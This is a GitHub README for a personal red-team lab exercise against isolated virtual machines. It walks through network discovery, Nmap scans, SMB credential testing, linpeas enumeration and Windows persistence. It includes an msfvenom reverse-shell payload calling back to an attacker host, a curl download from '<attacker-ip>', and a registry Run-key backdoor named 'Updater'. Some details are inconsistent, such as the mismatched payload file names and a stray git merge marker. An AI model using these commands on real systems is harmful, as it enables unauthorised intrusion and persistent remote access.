   

# 🛡️ Corporate Red Team Simulation Lab

<p align="center">
  
</p>


Welcome to the **Corporate Red Team Simulation Lab** — a hands-on project inspired by the mindset and methodology of real-world adversaries. This initiative showcases my passion as a **Cybersecurity Ethical Hacker & Penetration Tester**, blending offensive security tools, creativity, and strategy to simulate attacks against a virtual corporate environment.

## 🎯 Objective

To emulate advanced persistent threat (APT) behavior in a lab setup using **Kali Linux**, custom scripts, and open-source tools — following a full red team lifecycle:
1. Reconnaissance
2. Initial Access
3. Privilege Escalation
4. Lateral Movement
5. Exfiltration
6. Reporting and Remediation Suggestions

---

## 🔍 Lab Tools & Environment

| Component        | Details                            |
|------------------|-------------------------------------|
| Offensive OS     | Kali Linux (Rolling)                |
| Targets          | Metasploitable 2, Windows 10, DVWA  |
| C2 Framework     | Empire, Covenant, or Metasploit     |
| Enumeration      | Nmap, Enum4linux, Nikto             |
| Custom Scripts   | Bash, Python                        |
| Reporting Tools  | CherryTree, Markdown, LibreOffice   |

---

## 📁 Project Structure


---

## 📸 Screenshots & Demonstrations

Will be added as the lab progresses to showcase:
- Exploit results
- Enumeration output
- Lateral movement techniques
- Credential harvesting
- Exfiltration strategies

---

## 📖 Write-Ups

| Phase | Description                          | Status |
|-------|--------------------------------------|--------|
| 1     | Recon & Enumeration                  | 🔄 In Progress |
| 2     | Gaining Initial Access               | ⏳ Pending |
| 3     | Privilege Escalation                 | ⏳ Pending |
| 4     | Lateral Movement                     | ⏳ Pending |
| 5     | Data Exfiltration                    | ⏳ Pending |
| 6     | Final Report + Defense Suggestions   | ⏳ Pending |
---

## 💡 Why This Lab?

This project was born out of curiosity and a desire to simulate how attackers think — so I can help defend better. It’s not about tools alone but the **thinking process**, the **chain of compromise**, and the **real-world creativity** involved in ethical hacking.

---

## 🔗 Connect With Me

- **LinkedIn**: [https://www.linkedin.com/in/cypriano-akinwunmi-33383063/](#)

---

⚠️ **DISCLAIMER**: This lab is built and tested in an isolated environment. All activities and simulations are strictly for educational and ethical purposes.
>>>>>>> 3fdc141 (Initial commit with README and folder structure)
---

## 🔍 Phase 1: Network Discovery (Netdiscover)

### 🎯 Objective
To identify active hosts on the internal network using ARP-based reconnaissance.

### 🧪 Tool Used
- `netdiscover` — for passive and active network discovery via ARP requests.

### 📡 Command Executed
```bash
sudo netdiscover -r 10.10.10.0/24
```
### 🖼️ Screenshot


### ✅ Findings
The following hosts were identified:
- **10.10.10.1** — MAC: 52:54:00:12:35:00 — Unknown vendor  
- **10.10.10.2** — MAC: 52:54:00:12:35:00 — Unknown vendor  
- **10.10.10.3** — MAC: 08:00:27:4a:09:30 — PCS Systemtechnik GmbH

These hosts will be further analyzed in Phase 2 for open ports and running services.
---

## 🔎 Phase 2: Port Scanning with Nmap

### 🎯 Objective
To identify open ports and services running on the discovered host `10.10.10.3`.

### 🧪 Tool Used
- `nmap` — for scanning TCP ports.

### 🧾 Command Executed
```bash
sudo nmap -sS -Pn -T4 -p- 10.10.10.3 -oN phase2_initial_tcp_scan.txt
```
### 🖼️ Screenshot


### ✅ Findings

All 65,535 TCP ports on 10.10.10.3 were filtered (i.e., blocked or dropped by firewall), indicating strict network filtering or host hardening.

    Host is up (0.0014s latency)

    MAC: 08:00:27:BA:37:DD — PCS Systemtechnik/Oracle VirtualBox virtual NIC

    All scanned ports: filtered

## 🔎 Phase 3: Service and Version Detection with Nmap

### 🎯 Objective
To determine which services are running on open ports and identify their versions for host `10.10.10.3`.

### 🧪 Tool Used
- `nmap` — with service and version detection.

### 🧾 Command Executed
```bash
sudo nmap -sV -Pn -T4 -p- 10.10.10.3 -oN phase3_service_version_detection.txt
```
### 🖼 Screenshot



✅ Findings

    Host is up with latency: 0.0028s

    MAC Address: 08:00:27:56:7F:6F — PCS Systemtechnik / Oracle VirtualBox virtual NIC

    All 65,535 TCP ports are in filtered state (ignored), meaning they are likely blocked by a firewall or not responding.

    No visible services were detected.

    Nmap completed service/version detection, but due to all ports being filtered, no services were fingerprinted.

    ℹ️ This suggests strong host hardening, strict firewall rules, or intrusion prevention mechanisms.
## 🔎 Phase 4: Vulnerability Scanning

### 🎯 Objective
To identify known vulnerabilities and exposed services on host `10.10.10.3`.

### 🧪 Tools Used
- `nmap` — with vulnerability NSE scripts
- `nikto` — for web server vulnerability detection

### 🧾 Commands Executed
```bash
sudo nmap -sV --script vuln -Pn 10.10.10.3 -oN phase4_nmap_vuln_scan.txt
nikto -h http://10.10.10.3 -o phase4_nikto_results.txt
```

### 🖼 Screenshots

#### 🔍 Nmap Vulnerability Scan


#### 🌐 Nikto Web Scan


### ✅ Findings

- 🔌 **Host is up** with latency: `0.0025s`
- 🧱 All 1000 ports were **filtered** — no responses, indicating firewall restrictions
- ❌ **Nmap** did not detect any open services or vulnerabilities
- 🌐 **Nikto** tested `http://10.10.10.3` and returned: `0 host(s) tested` — no web server accessible

> 🔐 The host appears well-hardened with strong firewall or network filtering controls.

## 🧭 Phase 5: Lateral Movement Simulation

### 🎯 Objective
To simulate lateral movement by scanning for other hosts in the network, enumerating services (like SMB), and attempting to authenticate using discovered or assumed credentials.

---

### 🧪 Tools Used
- `nmap` — to scan for open ports
- `enum4linux` — to enumerate SMB shares and domain/workgroup info
- `crackmapexec` — to test for SMB authentication with known credentials

---

### 🧾 Step-by-Step Commands & Outputs

#### 🔍 Step 1: Port Scanning of Other Internal Hosts
Performed a full TCP port scan on two adjacent hosts `10.10.10.1` and `10.10.10.2`.

### 🧾 Command Executed
```bash
sudo nmap -sS -Pn -T4 -p- 10.10.10.1 -oN phase5_scan_10.10.10.1.txt
sudo nmap -sS -Pn -T4 -p- 10.10.10.2 -oN phase5_scan_10.10.10.2.txt
```
### 🖼 Screenshots



### 🧾 Step 2: Enumeration on 10.10.10.1 (SMB)

Attempted enumeration of SMB shares and domain info using anonymous credentials.

### 🧾 Command Executed
```bash
smbclient -L //10.10.10.1 -N
enum4linux 10.10.10.1
```
### 🖼 Screenshot



### 📌 Result: Enumeration failed. No domain or share info was returned.

### 🧾 Step 3: Targeted Port Scan for SMB (TCP 445)
Confirmed SMB port state on both hosts to determine if SMB is reachable.

### 🧾 Command Executed
```bash
sudo nmap -p 445 10.10.10.1
sudo nmap -p 445 10.10.10.2
```
### 🖼 Screenshots


### 📌 Results:

    10.10.10.1: Port 445 was closed

    10.10.10.2: Port 445 was open

### 🔐 Step 4: SMB Authentication Testing (CrackMapExec)

Tested authentication against both hosts using assumed credentials:

### 🧾 Command Executed
```bash
PYTHONWARNINGS="ignore" crackmapexec smb 10.10.10.1 -u administrator -p 'Password123'
PYTHONWARNINGS="ignore" crackmapexec smb 10.10.10.2 -u administrator -p 'Password123'
```
### 🖼 Screenshots



### 📌 Results:

    10.10.10.1: Authentication failed (STATUS_LOGON_FAILURE)

    10.10.10.2: Authentication failed, but system fingerprinted as:

        OS: Windows 10 / Server 2019 Build 19041

        SMBv1: Disabled

        SMB Signing: Disabled

### ✅ Findings Summary
| Host         | Port 445 | Enumeration       | Authentication | Notes                      |
| ------------ | -------- | ----------------- | -------------- | -------------------------- |
| `10.10.10.1` | ❌ Closed | ❌ Failed          | ❌ Failed       | Not reachable over SMB     |
| `10.10.10.2` | ✅ Open   | 🔒 Not Enumerated | ❌ Login failed | Fingerprinted successfully |

📡 10.10.10.1 only had port 53 (DNS) open; SMB closed.

🔍 10.10.10.2 had SMB port open but login attempt failed.

🧱 This indicates strict access controls, host isolation, or wrong credentials.

🧪 Demonstrated lateral movement reconnaissance even when access was denied.

## 🧭 Phase 6: Privilege Escalation Simulation

---

### 🎯 Objective

To identify and exploit potential privilege escalation vectors on a compromised Linux system using both manual enumeration and automated tools.

---

### 🧪 Tools Used

- `whoami`, `hostname` — for basic context gathering  
- `linpeas.sh` — for privilege escalation enumeration  
- `python3 -m http.server` — for hosting tools on the attack box  
- `curl` — for downloading tools on the target machine  

---

### 🔍 Step-by-Step Process

---

#### 🔎 Step 1: Context Enumeration

Gathered context by running the following commands to verify the current user and host identity:

### 🧾 Command Executed
```bash
whoami
hostname
```
### 🖼 Screenshots


### 🧪 Step 2: Upload Enumeration Tool to Target

Set up an HTTP server on the attack machine to host linpeas.sh:

### 🧾 Command Executed
```bash
cd /path/to/linpeas
python3 -m http.server 8000
```
Then downloaded the tool from the victim machine:
```bash
curl http://<attacker-ip>:8000/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
```
### 🖼 Screenshots


### 🚀 Step 3: Execute Tool and Analyze Output

Executed the linPEAS tool on the target system to scan for misconfigurations and privilege escalation vectors:

### 🧾 Command Executed
```bash
./linpeas.sh
```
### Notable Results:

    The current user is already root.

    linPEAS confirmed several tools available for post-exploitation: nmap, bash, nc, fping, etc.

    The OS is Kali Linux running Kernel version 6.12.13.

### 🖼 Screenshots


### ✅ Summary of Findings
| Area                 | Result / Observation                            |
| -------------------- | ----------------------------------------------- |
| Current User         | `root` (already escalated)                      |
| Hostname             | `original-hostname`                             |
| Kernel Version       | `6.12.13-amd64 (Kali)`                          |
| Privilege Escalation | Not required – user already has root privileges |
| Tools Detected       | `nmap`, `bash`, `nc`, `fping`                   |

### 💡 Conclusion
The target Linux system was already operating under root privileges, rendering privilege escalation unnecessary. However, running linpeas.sh validated system environment details and revealed key misconfigurations and tools that would otherwise aid in post-exploitation steps. This phase showcases how to verify privilege levels and use enumeration tools in preparation for escalation, even if it's ultimately not required.

# Phase 7 – Persistence Techniques

In this phase of my **Corporate Red Team Simulation Lab**, I focused on establishing **persistence** on the target Windows 10 machine after gaining administrator privileges. Persistence ensures that even after a system reboot, I can maintain access for continued operations. Below, I document every step I carried out in this phase, with supporting screenshots for clarity.

---

## 1. Preparing the Payload
I began by preparing a payload on my **Kali Linux attacker machine** to maintain persistence after reboot.  
This payload was configured to execute automatically through a registry entry.  

### 🧾 Command Executed
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.7 LPORT=4444 -f exe -o payload.exe
```
### 🖼 Screenshots


---

## 2. Deploying the Payload
After preparation, I deployed the payload onto the target Windows 10 machine using my established session.  
This ensured the malicious executable was successfully delivered and stored in a persistent location.  

### 🧾 Command Executed
```bash
scp payload.exe user@10.10.10.15:C:\Users\Public\
```
### 🖼 Screenshots


---

## 3. Creating the Registry Entry
To achieve persistence, I created a **Windows registry entry** that would automatically execute my payload on every system reboot.  
This was achieved by adding the payload path to the `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` registry key.  

### 🧾 Command Executed
```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
-Name "Updater" -Value "C:\Users\Public\backdoor.exe" -PropertyType String -Force
```
### 🖼 Screenshots


---

## 4. Rebooting and Verification
I then rebooted the Windows 10 machine to test persistence.  
After the reboot, I confirmed that the payload executed as expected, verifying that persistence was successful.  

### 🧾 Command Executed
```powershell
shutdown /r /t 0
```
### 🖼 Screenshots


---

## 5. Enabling Remote PowerShell Access
Since persistence alone is not useful without reliable access, I enabled **Remote PowerShell** on the Windows 10 target.  
This allowed me to remotely execute PowerShell commands from my Kali machine.  

### 🧾 Command Executed
```powershell
Enable-PSRemoting -Force
'''
### 🖼 Screenshots


---

## 6. Creating Firewall Rule for WinRM
To support my PowerShell access, I created a **Windows Firewall rule** that allowed inbound WinRM traffic.  
This ensured my commands would not be blocked by the firewall.  

### 🧾 Command Executed
```powershell
New-NetFirewallRule -Name "WinRM" -DisplayName "Allow WinRM" -Protocol TCP -LocalPort 5985 -Action Allow
```
### 🖼 Screenshots


---

## 7. Local WinRM Connection Test
Finally, I performed a **local WinRM test** on the Windows 10 machine to confirm connectivity before attempting remote access from Kali.  
The test was successful, proving that my persistence method and connectivity setup were working as intended.  

### 🧾 Command Executed
```powershell
Test-WSMan localhost
```
### 🖼 Screenshots


---

## Summary of Phase 7
In this phase, I successfully established persistence on the Windows 10 target by:  

- Preparing and deploying a payload.  
- Creating a registry entry for auto-execution.  
- Rebooting and verifying persistence.  
- Enabling Remote PowerShell.  
- Adding a firewall rule to allow WinRM traffic.  
- Verifying local WinRM connectivity.  

With these persistence techniques in place, I ensured long-term stealthy access to the compromised machine, which is a critical aspect of red team operations.

---
